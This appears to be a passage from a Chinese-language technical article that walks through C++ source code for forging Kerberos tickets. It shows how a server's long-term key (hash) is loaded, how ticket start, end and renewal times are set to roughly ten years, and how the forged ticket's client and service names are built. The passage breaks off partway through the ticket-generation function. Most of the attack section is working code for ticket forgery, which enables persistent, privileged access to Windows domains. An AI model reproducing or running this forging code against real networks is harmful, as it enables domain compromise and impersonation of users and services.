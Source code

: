```c++
```

Initialize Secret Key and Set Ticket Time
-----------------------------------------

`KerberosGolden()` 函数首先通过 `CDLocateCSystem()` 函数找到 `dwKeyType` 参数指定的加密类型的加密系统，并存储在 `pCSystem` 结构体中。然后将用户提交的 Key 转换为大小为 `pCSystem->KeySize` 的 Hex 格式，如下所示。

```c++
status = NT_SUCCESS(CDLocateCSystem(dwKeyType, &pCSystem));
if (!status)
{
    wprintf(L"[-] CDLocateCSystem Error [%u].\n", GetLastError());
    return status;
}

if (StringToHex(lpKey, Key, pCSystem->KeySize))
{
    // ...
}
```

这里的 Key 也就是服务器的 Long-term Key（长期密钥），用于后续对 PAC 结构签名和加密票据的 EncTicketPart 部分，一般是服务器的哈希值。

然后，需要为伪造的票据设置三个时间：starttime、endtime 和 renew-till，分别对应票证有效的起始时间、票据将过期的时间和票证的绝对到期时间，如下所示。

```c++
GetSystemTimeAsFileTime(&lifeTimeData.TicketStart);
*(PULONGLONG)&lifeTimeData.TicketStart -= *(PULONGLONG)&lifeTimeData.TicketStart % 10000000;
lifeTimeData.TicketRenew = lifeTimeData.TicketEnd = lifeTimeData.TicketStart;
*(PULONGLONG)&lifeTimeData.TicketEnd += (ULONGLONG)10000000 * 60 * wcstoul(L"5256000", NULL, 0);
*(PULONGLONG)&lifeTimeData.TicketRenew += (ULONGLONG)10000000 * 60 * wcstoul(L"5256000", NULL, 0);
```

然后将上述信息全部传入 `KerberosGenerateGoldenData()` 函数，正式进入伪造票据的过程，该函数定义如下。

```c++
PBERVAL KerberosGenerateGoldenData(LPCWSTR lpUserName, LPCWSTR lpDomainName, LPCWSTR lpServiceName, LPCWSTR lpTargetName, PKERBEROS_LIFETIME_DATA pLifeTimeData, LPCBYTE Key, DWORD dwKeySize, DWORD dwKeyType, PISID pSid, LPCWSTR lpLogonDomainName)
{
    // A KERBEROS_TICKET structure is defined for temporary storage of ticket information.
    KERBEROS_TICKET ticket = { 0 };
    PKERB_VALIDATION_INFO pValidationInfo = NULL;
    PPACTYPE pacType = NULL;
    DWORD pacTypeSize = 0;
    LONG SignatureType;
    PBERVAL BerAppEncTicketPart = NULL, BerAppKrbCred = NULL;

    // These three times for temporarily storing tickets: starttime, endtime and renew-till.
    ticket.StartTime = pLifeTimeData->TicketStart;
    ticket.EndTime = pLifeTimeData->TicketEnd;
    ticket.RenewUntil = pLifeTimeData->TicketRenew;

    // The cname of the temporary storage ticket.
    if (ticket.ClientName = (PKERB_EXTERNAL_NAME)LocalAlloc(LPTR, sizeof(KERB_EXTERNAL_NAME)))
    {
        ticket.ClientName->NameCount = 1;
        ticket.ClientName->NameType = KRB_NT_PRINCIPAL;
        RtlInitUnicodeString(&ticket.ClientName->Names[0], lpUserName);
    }

    // The sname of the temporary storage ticket.
    if (ticket.ServiceName = (PKERB_EXTERNAL_NAME)LocalAlloc(LPTR, sizeof(KERB_EXTERNAL_NAME)))
    {
        ticket.ServiceName->NameCount = 2;
        ticket.ServiceName->NameType = KRB_NT_SRV_INST;
```